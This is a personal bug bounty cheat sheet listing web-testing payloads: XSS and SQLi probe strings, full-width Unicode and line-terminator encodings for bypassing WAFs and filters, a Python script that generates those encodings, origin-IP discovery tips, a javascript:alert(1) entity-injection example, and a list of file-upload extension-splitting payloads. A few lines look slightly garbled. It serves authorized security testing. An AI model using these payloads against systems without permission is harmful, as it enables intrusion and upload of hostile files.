 ```yaml
---
layout: memory
title: Bug Bounty Cheat Sheet
---
```


<p align="center">
<img width="200" src="/images/bugbounty.png">
</p>
A cheat sheet for quick testing related to some of my Bug Bounty activities


## Test for XSS or SQLi as a oneliner

Testing Oneliner: `qwert'"<x</`

Explanation:
```
qwert - easy to type & find in HTML
'" - JS/HTML breakout & SQLi
<x - HTML injection test
</ - <script> breakout

extra for SSTI/CSTI

{{[7*7]}}${7*7}qwe'"<x</
```

## A full-width version of symbols related to XSS, CRLF, WAF bypass

```
＜ = %EF%BC%9C = \uFF1C ⇒ %3C (<)
＞ = %EF%BC%9E = \uFF1E ⇒ %3E (>)
＼ = %EF%BC%BC = \uFF3C ⇒ %5C (\)
／ = %EF%BC%8F = \uFF0F ⇒ %2F (/)
＇ = %EF%BC%87 = \uFF07 ⇒ %27 (')
＂ = %EF%BC%82 = \uFF02 ⇒ %22 (")

%0A (LF) ⇒ %EF%BB%AA = \uFEEA = ﻪ
%0D (CR) ⇒ %EF%BB%AD = \uFEED ⇒ ﻭ
```

This was produced by using this script:

```python
import argparse
import urllib.parse

def create_full_width(hex_value):
    hex_value = hex_value.upper()
    base_decimal = int(hex_value, 16)
    s = chr(base_decimal)

    if hex_value == '0A':
        s = 'LF'
    if hex_value == '0D':
        s = 'CR'

    fw_decimal = base_decimal + 0xFEE0
    fw_hex = format(fw_decimal, 'X')
    fw_char = chr(fw_decimal)
    fw_enc = urllib.parse.quote(fw_char).upper()

    return f"{fw_char} = %{fw_enc} = \\u{fw_hex} ⇒ %{hex_value} ({s})"

def showcase():
    # Example usage
    print(create_full_width('3C'))  # Output: ＜ = %EF%BC%9C = \uFF1C ⇒ %3C (<)
    print(create_full_width('3E'))  # Output: ＞ = %EF%BC%9E = \uFF1E ⇒ %3E (>)
    print(create_full_width('5C'))  # Output: ＼ = %EF%BC%BC = \uFF3C ⇒ %5C (\)
    print(create_full_width('2F'))  # Output: ／ = %EF%BC%8F = \uFF0F ⇒ %2F (/)
    print(create_full_width('27'))  # Output: ＇ = %EF%BC%87 = \uFF07 ⇒ %27 (')
    print(create_full_width('22'))  # Output: ＂ = %EF%BC%82 = \uFF02 ⇒ %22 (")
    print(create_full_width('0A'))  # Output: %0A (LF) ⇒ %EF%BB%AA = \uFEEA = ﻪ
    print(create_full_width('0D'))  # Output: %0D (CR) ⇒ %EF%BB%AD = \uFEED ⇒ ﻭ


def main():
    parser = argparse.ArgumentParser(description="Convert hex values to full-width characters and their URL-encoded representations.")
    parser.add_argument("--hex", help="Input hex value to convert", type=str, default=None)
    parser.add_argument("--demo", help="Showcase with demo input", action="store_true")
    args = parser.parse_args()

    if args.demo:
        showcase()
        
    if args.hex:
        print(create_full_width(args.hex))

if __name__ == "__main__":
    main()
```


## Line terminators for XSS / CRLF injection

```
LF: %0A (\u000A)
VT: %0B (\u000B)
FF: %0C (\u000C)
CR: %0D (\u000D)
CR+LF: %0D%0A (\u000D\u000A)
NEL: %C2%85 (\u0085)
LS: %E2%80%A8 (\u2028)
PS: %E2%80%A9 (\u2029)
```

## Bypass WAF 

Bypass by discovering the origin IP address of a server using the following:

- search domain on [Censys](https://search.censys.io/)
- domain history on [SecurityTrails](https://securitytrails.com/)
- test pingbacks (XML-RPC, SSRF)
- fake email to domain & check receipt
- receive domain email & check headers


## Injecting HTML character entities in different places of the URL

```html
<a href="{A}javas{B}cript{C}:alert(1)">
```

1. &#01, &#02 ... up to ... &#32
1. &#09, &#10, &#13
1. &#09, &#10, &#13

Example:
```html
<a href="&#27;javas&#09;cript&#13;:alert(1)">
Click Me
</a>
```


## Encodings for Common Symbols used for testing

```
`<` = %3C \u003c &#x3c; &#60; &lt;
`>` = %3E \u003e &#x3e; &#62; &gt;
`'` = %27 \u0027 &#x27; &#39; &apos;
`"` = %22 \u0022 &#x22; &#34; &quot;
`\` = %5C \u005c &#x5c; &#92; &bsol;
`/` = %2F \u002f &#x2f; &#47; &sol;
`:` = %3A \u003A &#x3A; &#58; &colon;
`%` = %25 \u0025 &#x25; &#37; &percnt;
`&` = %26 \u0026 &#x26; &#38; &amp;
`.` = %2E \u002e &#x2e; &#46; &period;
``` = %60 \u0060 &#x60; &#96; &grave;
`+` = %2B \u002B &#x2b; &#43; &plus;
```

## File upload extension splitting

```
qwe.php.png
qwe.php\x20.png
qwe.php\00.png
qwe.php\x00.png
qwe.php%00.png
qwe.php&#00;.png
qwe. e.php&#x00; .png
qwe.php\u0000.png
qwe.php%20.png
qwe.php&#20;.png
qwe.php&#x20;.png
qwe.php; .png
qwe.php%3B.png
qwe.php\x3B.png
qwe.php&#59;.png
qwe.php&#x3b;.png
qwe.php\u003b.png
qwe.php\u563b.png
qwe.php%C0%bb.png
qwe.php%E5%98%bb.png
qwe.php%E0%80%bb.png
qwe.php%E0%80%80.png
qwe.php%C0%A0.] 9.png
qwe.php%E5%98%A0.png
qwe.php%E0%80%A0.png
qwe.php\u5600.png
qwe.php\u5620.png
qwe.php%C0%80.png
qwe.php\u0020.png
```